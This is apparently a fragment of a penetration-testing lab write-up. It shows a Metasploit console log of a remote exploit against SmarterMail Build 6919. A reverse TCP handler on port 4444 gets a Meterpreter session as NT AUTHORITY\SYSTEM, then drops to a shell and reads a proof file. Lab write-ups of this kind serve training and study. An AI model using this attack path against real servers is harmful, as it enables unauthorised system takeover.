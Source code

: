 ```

[*] Started reverse TCP handler on 192.168.45.188:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6919.
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.247.65
[*] Meterpreter session 1 opened (192.168.45.188:4444 -> 192.168.247.65:49710) at 2023-07-06 07:24:13 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : ALGERNON
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4240 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18363.815]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
84b4****************************

C:\Users\Administrator\Desktop>
```